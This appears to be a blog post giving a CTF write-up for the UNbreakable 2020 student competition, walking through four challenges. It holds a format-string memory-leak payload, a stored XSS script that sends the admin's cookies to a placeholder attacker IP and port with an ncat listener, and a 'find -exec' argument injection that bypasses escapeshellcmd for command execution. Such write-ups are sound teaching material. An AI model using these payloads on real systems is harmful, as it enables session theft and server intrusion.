 ```yaml
---
layout: post
title: "Breaking the UNbreakable 2020"
date: 2020-11-09 10:00:00 +0300
description: CTF writeup
tag: [CTF, Writeup, UNbreakable]
img: UNbreakable2020/title.png
---
```


On its first edition, UNbreakable is a promising CTF competition for high school and college students. It is hosted on the educational platform [cyberedu.ro](https://cyberedu.ro/) and backed by Bit Sentinel, whose CEO also founded [DefCamp](https://def.camp/).  
Although aimed at students, the challanges are not that easy, so it is a good exercise for anyone to try solve them. In a nutshell I'd say they are supposed to be solved with little technical knowledge, rather more ingenuity and documentation research. Some of them I was able to solve during the contest, some after and some are still a mystery, as for now there are no other writeups online. Participation is open for anyone, but only students may receive prizes.  
Now the challanges!

## better-cat

We are provided with an elf binary that asks for a password.  
Running a simple `strings cat.elf` on the file is enough to find the "password" for the flag or we could just simply build the flag from the output.

## notafuzz

So we're provided with the binary of a web service we can interact with over TCP. The attached file may not be so obvious at fist.  
![service interaction]({{site.baseurl}}/assets/img/posts/UNbreakable2020/naf-test.png)
So the program seems mostly to repeat what we say. If you are eager you can observe that a newline was omitted at some point. Anyway we better try to decompile the binary to see what happens in there. I preffer using Ghidra for this.
![decompiled code]({{site.baseurl}}/assets/img/posts/UNbreakable2020/naf-decompiled.png)
Studying the main function we see that all this program does it to repeat what we're saying. But there is a special case the third time we enter our input, the only thing different is that our input is printed with printf instead of puts.  
Doing some research you may find out that this allows for a format string attack. That means that we can use format strings (like `%s`) to read from memory starting from the address of the specified buffer (ie our input). After the declaration of the input buffer a few other variables are declared so we better see what they hold inside. The input buffer may hold a maximum of 1008 characters, so we may craft a payload that will try to read bytes from the stack in hexadecimal format in python `python -c "print(\"%08X\"*250)"`. This payload will work only the third time we enter input.
![sending the payload]({{site.baseurl}}/assets/img/posts/UNbreakable2020/naf-payload.png)
Ok, now we should translate the response from server. You can paste the input into a hex editor (I recommend Bless) or use xxd `echo "response" | xxd -r -u -p`.
![translated payload]({{site.baseurl}}/assets/img/posts/UNbreakable2020/naf-response.png)
Great! It seems the flag is in the output, just not in a very convienent form. The catch here is that X format printed sizeof(int) bytes in a little-endian representation. I used this format as it would print more memory than reading one byte at a time. You might rewrite it to its original form yourself or write a simple script to do it for you:
```python
message = "{ftcflagXXX}"
reordered = [''.join(reversed(message[index: index + 4])) for index in range(0, len(message), 4)]
reordered = ''.join(reordered)[:-3]
print (reordered)
```

## manual-review

We are presented a web platform where we can contact an admin, see the tickets in a chat-like manner and modify our account details. Usually this kind of challanges are supposed to make you annoy the admin with some dirty XSS and maybe try to steal his cookies.
![challenge overview]({{site.baseurl}}/assets/img/posts/UNbreakable2020/mr-overview.jpg)
Seems like there is no XSS filtering, so we have just to exploit this XSS vulnerability in the support system. Unfortunately the session cookie is http-only, so it can't be stolen, but anyway, for the sake of fun let's try to steal sum cookiez. It seems there is no obvious way to get feedback from admin on the platform, so let's use javascript to exfiltrate his cookies to our server.  
For this you must have [port forwarding](https://www.lifewire.com/how-to-port-forward-4163829) set up. Mostly you have to assign a static IP to your PC and set up port forwarding in your router config (under NAT settings) to forward traffic received on a specified public port of your choice to one on your machine. Then we can listen on that port with netcat `ncat -nlvp YOUR_PUBLIC_PORT`. Alternatively you can use Burp collaborator, but that is not included in the community version. Now it's quite easy to forge a payload for the admin to send us his cookies:  
```javascript
<script>
var xhttp = new XMLHttpRequest();
xhttp.open("GET", "PUBLIC_IP:FORWARDED_PORT/?cookie=" + btoa(document.cookie));
xhttp.send();
</script>
```
Encoding to base64 will make sure that this will be a valid url.  
Looking at the request received from admin we can see the cookies are irrelevant and the flag was in its user agent. Who would have guessed it was there?
![admin response]({{site.baseurl}}/assets/img/posts/UNbreakable2020/mr-response.jpg)

## the-code
We're given the php code of a webpage and we have to find somehow the flag.
![challange overview]({{site.baseurl}}/assets/img/posts/UNbreakable2020/tc-overview.png)
Setting the start parameter in the URL will make the page active and we can inject our payload in args parameter, which would represent the name of the file we're searching in `/tmp`.
Some nasty shell metacharacters are blocked and escapeshellcmd is used to escape our input. Also the response from server is encoded in a hard to reverse way.  
Escapeshellcmd is supposed to escape any characters in a string that might be used to trick a shell command into executing arbitrary commands. On its php manual page we see a warning: **escapeshellcmd() should be used on the whole command string, and it still allows the attacker to pass arbitrary number of arguments. For escaping a single argument escapeshellarg() should be used instead.** Now we have a direction, we should use some parameter of find to do some bad stuff.  
`find --help` reveals an option -exec that allows the execution of arbitrary commands. That means we have a semi-blind RCE. One thing to note is that -exec runs the specified command only if it has found at least one file (it may run just once or once for each file found, depending on syntax). In order to get some results with `find /tmp -iname OUR_INPUT` we can specify the wildcard `*` which for this server will match all files inside the folder, including the folder itself.  
So far visiting `/?start=1&arg=*` will yield some encoded result ("L3RTCAOVDG1WL3N0YXJ0LNNOCG==") and we know we can run arbitrary semi-blind commands on the server. Ironic enough all I can think of is to use this find based RCE to maybe find a flag file on the server. After a long fuzzing time I found that `/?start=&arg=* -exec find / -iname flag ;` found something. Now the road splits in half, you may try to decode this by hand trying to guess which letter is uppercase and which not or you might try to figure out a way to exfiltrate data out-of-band to your server, if the firewall allows you to do that. I preffered to do it by hand during the contest and I found that the file was located under the root of the server.  
So basically anyone who'd try to access `/flag` randomly would get the flag.
